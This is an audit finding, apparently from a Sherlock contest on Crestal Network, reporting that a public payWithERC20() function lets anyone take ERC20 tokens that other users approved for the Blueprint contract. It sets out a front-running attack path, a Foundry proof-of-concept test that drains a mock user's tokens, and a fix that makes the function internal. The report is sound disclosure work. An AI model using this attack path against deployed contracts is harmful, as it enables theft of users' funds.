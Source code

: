 Dry Rainbow Mongoose

High

# Payment.payWithERC20() function allows any user to steal ERC20 tokens approved for Blueprint contract

### Summary

Payment.payWithERC20() function allows any user to steal ERC20 tokens approved for Blueprint contract

### Root Cause

Payment.payWithERC20() expects users to pay ERC20 tokens when making some kind of operation in the contract (for example, creating an Agent). However, the visibility of the function is `public`, which allows any address to call it with no restrictions.
This means that any user can call `payWithERC20()` to steal all the tokens from a user that has set an allowance for Blueprint contract to take their tokens (user's idea is to pay those ERC20 tokens to create an agent, but malicious attacker will steal them as soon as the allowance is set).

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32

### Internal Pre-conditions

1. Alice sets an allowance of an enabled ERC20 token Blueprint contract, as she intends to call `createAgentWithToken()`, which requires an ERC20 token payment.

### Attack Path

1. Bob sees Alice just approved a certain amount of ERC20 token for Blueprint contract.
2. Bob frontruns Alice calling `payWithERC20()` before Alice calls `createAgentWithToken()`, using Alice's address as `fromAddress` parameter. As Blueprint contract is approved by Alice, Bob is able to steal Alice's tokens.

### Impact

Any user that approves any ERC20 tokens for Blueprint contract will get them stolen instantly, as `payWithERC20()` has public visibility and everyone can call it with arbitrary parameters. This totally breaks the possibility of creating an Agent by paying ERC20 tokens and will discourage users from using the protocol, making them look for safe alternative options.

### PoC

```solidity
function test_stolenTokens() public{
        address alice = makeAddr("alice");
        address bob = makeAddr("bob");
        mockToken.mint(alice, 1e18);
        uint256 aliceInitialBalance = mockToken.balanceOf(alice);
        uint256 bobInitialBalance = mockToken.balanceOf(bob);
        assertEq(aliceInitialBalance, 1e18);
        assertEq(bobInitialBalance, 0);
        vm.prank(alice);
        mockToken.approve(address(blueprint), 1e18);
        vm.prank(bob);
        blueprint.payWithERC20(address(mockToken), 1e18, alice, bob);
        uint256 aliceFinalBalance = mockToken.balanceOf(alice);
        uint256 bobFinalBalance = mockToken.balanceOf(bob);
        assertEq(aliceFinalBalance, 0);
        assertEq(bobFinalBalance, 1e18);
    }
```

### Mitigation

Change the visibility of `payWithERC20()` function from public to internal, so that only Blueprint contract can call and external calls with arbitrary parameters are not allowed:

```solidity
- function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+ function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```
